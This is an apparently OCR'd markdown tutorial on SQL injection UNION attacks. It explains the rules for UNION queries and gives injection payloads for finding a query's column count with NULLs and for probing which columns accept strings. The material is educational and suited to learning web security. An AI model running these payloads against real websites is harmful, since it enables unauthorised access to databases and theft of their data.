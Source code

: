 # UNION attacks

The union keyword lets you exucute one or more additional SELECT queries and append the results to the original query.

>SELECT a,b FROM table2 UNION SELECT c,d FROM table2

>This will display data in two columns: The first column having data from a,c and the second column having data from b,d

The **rules** of using UNION are:
1. The number of columns in the SELECT statements must be similar
2. The data types of the columns must be compatible

If these requirements are met, then a UNION attack can be performed.

The first step in a union attack is determining the number of columns.
We can do this by adding ** 'UNION SELECT NULL-- ** to the url query.

If you get an error, then that is not the correct number of columns. Keep adding NULL till a data column is displayed. i.e

>' UNION SELECT NULL--
>
>' UNION SELECT NULL,NULL--
>
>' UNION SELECT NULL,NULL,NULL--
>etc.


Once you've determined the number of columns, you can probe each column to test whether it can hold string data by submitting a series of UNION SELECT payloads that place a string value into each column in turn.

Just replace each NULL with any string e.g If the number of columns is three:

>' UNION SELECT 'abc',NULL,NULL--
>
>' UNION SELECT NULL,'abc',NULL--
>
>' UNION SELECT NULL,NULL,'abc'--